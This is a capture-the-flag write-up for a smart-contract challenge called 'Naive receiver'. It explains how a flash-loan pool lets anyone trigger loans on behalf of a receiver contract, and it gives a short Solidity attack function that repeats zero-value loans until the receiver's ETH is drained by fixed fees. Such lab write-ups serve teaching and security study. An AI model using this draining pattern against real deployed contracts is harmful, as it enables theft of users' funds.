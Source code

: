 # Challenge 2 — Naive receiver

## Description

In the lending pool `NaiveReceiverLenderPool`,  offering expensive (1 ETH) flash loans of Ether, the function `flashLoan` provides the loan.
Funds are loaned from the `NaiveReceiverLenderPool` contract to the FlashLoanReceiver contract which must repay the loaned amount plus a large fee (1 ETH) .
In the `flashLoan` function, the process is:

1. Check that the `borrowAmount` to be sure that it is less that the actual balance of the contract:
	```solidity
	uint256 balanceBefore =  address(this).balance;
	require(balanceBefore >= borrowAmount, "Not enough ETH in pool");
	```

2. Check that `borrower` is a contract:
	```solidity
	require(address(borrower).isContract(), "Borrower must be a deployed contract");
	```

3. Transfer ETH and handle control to receiver:
	```solidity
	(bool success, ) = borrower.call{value: borrowAmount}(
		abi.encodeWithSignature(
			"receiveEther(uint256)",
			FIXED_FEE
		)
	);
	```

## Vulnerability

In the `flashLoan` function, the loanee’s address `borrower` is passed as a parameter.
However, the transaction can be initiated by anyone since there is no restriction on that in the function body.

## How to exploit?

1. Create an attacker contract that calls the pool’s `flashLoan` function passing `FlashLoanReceiver`‘s address as the `borrower.`

2. Do it ten times (until balance of the naive received is less than `FIXED_FEE = 1 ETH`) and the `borrower` will run out of funds.

	```solidity
	function  attack(
	INaiveReceiverLenderPool  pool,
	address  payable  receiver
	) public {
		uint256  FIXED_FEE  = pool.fixedFee();
		while (receiver.balance >=  FIXED_FEE) {
			pool.flashLoan(receiver, 0);
		}
	}
	```
	The call should be:
	```javascript
	await  this.attacker.attack(this.pool.address, this.receiver.address);
	```
